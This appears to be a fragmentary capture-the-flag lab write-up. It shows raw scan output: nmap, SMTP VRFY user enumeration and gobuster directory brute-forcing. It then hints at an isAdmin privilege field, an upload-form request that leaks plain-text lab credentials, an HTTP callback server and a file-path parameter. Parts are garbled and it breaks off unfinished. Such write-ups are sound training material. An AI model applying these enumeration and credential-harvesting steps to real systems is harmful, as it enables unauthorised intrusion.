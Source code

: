 honestly I'm cheap and bad at enum so I ran a vuln scan like a noob

┌──(kali㉿kali)-[~]
└─$ nmap -sV -p- -oN simple.nmap 10.10.110.33
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-17 20:34 EDT
Nmap scan report for 10.10.110.33
Host is up (0.096s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
110/tcp   open  pop3     Dovecot pop3d
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
4000/tcp  open  http     Node.js (Express middleware)
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
Service Info: Host:  mail.filepath.lab; OS: Linux; CPE: cpe:/o:linux:linux_kernel


┌──(kali㉿kali)-[~]
└─$ telnet 10.10.110.33 25
Trying 10.10.110.33...
Connected to 10.10.110.33.
Escape character is '^]'.
220 mail.filepath.lab ESMTP Postfix (Ubuntu)
?
502 5.5.2 Error: command not recognized
help
502 5.5.2 Error: command not recognized
EHLO mail.filepath.lab
250-mail.filepath.lab
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
VRFY root
252 2.0.0 root
VRFY admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table
VRFY user
550 5.1.1 <user>: Recipient address rejected: User unknown in local recipient table
421 4.4.2 mail.filepath.lab Error: timeout exceeded
Connection closed by foreign host.

we know a root user exists on the SMTP server so we can potentially yolo the PW creds with hydra 

hydra failed

┌──(kali㉿kali)-[~]
└─$ nmap -p 25 --script smtp-enum-users 10.10.94.1 -oN smpt-enum.nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-19 22:05 EDT
Nmap scan report for 10.10.94.1
Host is up (0.089s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users: 
|   root
|   admin
|   administrator
|   webadmin
|   sysadmin
|   netadmin
|   guest
|   user
|   web
|_  test

Nmap done: 1 IP address (1 host up) scanned in 1.79 seconds

┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.94.1:4000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.94.1:4000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 302) [Size: 29] [--> /signin]
/images               (Status: 301) [Size: 179] [--> /images/]
/signup               (Status: 500) [Size: 1246]
/Index                (Status: 302) [Size: 29] [--> /signin]
/signin               (Status: 200) [Size: 1295]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/INDEX                (Status: 302) [Size: 29] [--> /signin]
/Signup               (Status: 500) [Size: 1246]
/SignUp               (Status: 500) [Size: 1246]
/signUp               (Status: 500) [Size: 1246]
/SignIn               (Status: 200) [Size: 1295]
Progress: 34187 / 220561 (15.50%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 34204 / 220561 (15.51%)
===============================================================
Finished
===============================================================
                                                                                                                
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.94.1:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.94.1:50000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/templates            (Status: 301) [Size: 321] [--> http://10.10.94.1:50000/templates/]
/uploads              (Status: 301) [Size: 319] [--> http://10.10.94.1:50000/uploads/]
/javascript           (Status: 301) [Size: 322] [--> http://10.10.94.1:50000/javascript/]
/phpmyadmin           (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]

This client side JS code snippet clues us that the recommend an activity upload form MIGHT affect the profile details, obviously we are after "isAdmin" field

form class="mb-4"> <h2 class="mb-3">Friend Details</h2> <ul class="list-group"> <li class="list-group-item"> id: 1 </li> <li class="list-group-item"> name: &#34;guest&#34; </li> <li class="list-group-item"> age: 25 </li> <li class="list-group-item"> country: &#34;UK&#34; </li> <li class="list-group-item"> albums: [{&#34;name&#34;:&#34;USA Trip&#34;,&#34;photos&#34;:&#34;www.thm.me&#34;}] </li> <li class="list-group-item"> isAdmin: false </li> <li class="list-group-item"> profileImage: &#34;/images/prof1.avif&#34; </li> </ul> </form> <!-- Recommend Activity Form --> <form action="/recommend-activity/1" method="post" class="mb-4"> <h2 class="mb-3">Recommend an Activity to guest </h2> <div class="form-group"> <input type="text" class="form-control" name="activityType" placeholder="Activity Type (e.g., Favorite Book)"> </div> <div class="form-group"> <input type="text" class="form-control" name="activityName" placeholder="Activity Name (e.g., 1984)"> </div> <button type="submit" class="btn btn-primary">Recommend Activity</button> </form>

surely enough the CTF CTF's

when feeding admin API GET HTTP command to the image upload secution of INCLUDE_IP:4000 you get the following response (in base 64 but that is easy to convert) from the picture upload form

{"ReviewAppUsername":"admin","ReviewAppPassword":"admin@!!!","SysMonAppUsername":"administrator","SysMonAppPassword":"S$9$qk6d#**LQU"}

which when you login to the sysmon portal with the sysmon creds dumped here 

┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.91.131 - - [14/Jul/2025 21:11:52] "GET /confirmed.txt HTTP/1.1" 200 -
@
http://10.10.91.131:4000/admin/settings

view-source:http://10.10.91.131:50000/profile.php?img=profile.png